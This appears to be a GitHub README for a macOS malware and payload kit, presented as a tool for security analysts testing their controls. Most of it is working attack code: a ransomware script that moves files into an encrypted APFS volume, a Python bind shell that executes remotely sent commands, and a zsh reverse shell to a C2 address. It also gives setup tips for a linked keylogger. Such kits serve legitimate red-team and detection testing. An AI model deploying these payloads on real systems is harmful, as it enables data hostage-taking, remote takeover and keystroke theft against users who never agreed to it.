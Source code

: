 # Overview
This repository is a collection of simple malware and payloads to help cyber security analysts and technicians test their mac os security controls and monitor system

# Simple Ransomeware Script (apfs_ransomware.sh)
This script simulates a ransomware scenario by creating a new APFS volume move all the files into the volume and encrypt that volume. The script was adjusted to reduce the complexity and the potential damage.
Reference source: https://www.huntress.com/blog/creating-macos-ransomware
`p="1234"`
+ Set a simple passphrase to encrypt the Volume XX
`disk_name=$(diskutil info / | grep “APFS Container:” | tr -s “ “ | cut -d” “ -f4)`
+ Get the disk name of the current machine
`diskutil apfs addVolume “${disk_name}” APFS XX -pasphrase “${p}”`
+ Create a new disk volume in the selected APFS container and set it as an encrypted volume
`mv -f ./Sample_Dir/* /Volumes/XX`
+ Move some testing sample documents to the encrypted Volume, replace the sample document path
`echo $p`
+ Display the passphrase

# Simple Python Bind Shell (python_bind_shell.sh)
This script simulates a bind shell scenario where an attacker set a backdoor on the target system using Python 3.
Reference source: Online - Reverse Shell Generator (https://www.revshells.com/) (select Bind tab and select
Python3 Bind option)
```
import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind((&quot;0.0.0.0&quot;,9001));s1.listen(1);c,a=s1.accept();
```
+ Set up an open port on the system so the attacker can access the system remotely
```
while True:
d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())
```
+ The code listens for the command sent by the attacker and reply with the command’s result

# Simple off the land Reverse Shell (zmodload_reverse_shell.sh)
`zmodload zsh/net/tcp`
+ Load built in module tcp
`ztcp 127.0.0.1 4444`
+ Establish connection to the C2 server, replace the ip address and port number
`zsh >&$REPLY 2>&$REPLY 0>&$REPLY'`
+ Maintain the interactive shell with the C2 server

# Simple Keylogger on macOS
Source code repository on Github: https://github.com/caseyscarborough/keylogger/tree/master
## Note
When you got the error: `ERROR: Unable to create event tap.`
Go into System Preferences and go to **Security & Privacy**, click the **Privacy tab**, choose **Accessibility** in the left pane, and ensure that **Terminal is checked**.
